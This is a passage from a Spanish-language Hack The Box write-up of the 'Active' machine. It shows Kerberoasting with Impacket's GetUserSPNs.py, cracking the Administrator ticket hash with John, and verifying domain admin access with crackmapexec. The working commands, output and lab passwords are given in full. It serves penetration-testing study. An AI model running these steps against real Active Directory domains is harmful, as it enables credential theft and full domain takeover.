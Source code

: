 Y solo hay un solo usuario.

# Conseguimos Acceso a la Máquina

Bien, ahora vamos a ver si hay algun usuario **kerberoasteable** , con la utilidad **GetUserSPNs.py**. 

```bash
h3g0c1v@kali:~/htb/active$ python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18         
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet             LastLogon                   Delegation 
--------------------  -------------  --------------------------------------------------------  --------------------------  --------------------------  ----------
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 21:06:40.351723  2021-01-21 17:07:03.723783             

```

Perfecto, pues ahora podemos utilizar la utilildad **GetUserSPNs.py** , para obtener el ticket `TGT` del usuario administrador, para luego **crackearlo** con **jhon**.

![](/assets/images/htb-writeup-active/TGT.png)

Probamos si se puede crackear con **jhon**.

![](/assets/images/htb-writeup-active/jhonHashTGT.png)

Y si, se ha podido crackear. Ahora vamos a ver si con el **usuario Administrator** y la contraseña obtenida, nos pone un buen `pwned` con **crackmapexec**.

```bash
h3g0c1v@kali:~/htb/active$ crackmapexec smb 10.10.10.100 -u "Administrator" -p "Ticketmaster1968"
SMB         10.10.10.100    445    DC               [*] Windows 6.1 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False)
SMB         10.10.10.100    445    DC               [+] active.htb\Administrator:Ticketmaster1968 (Pwn3d!)

```
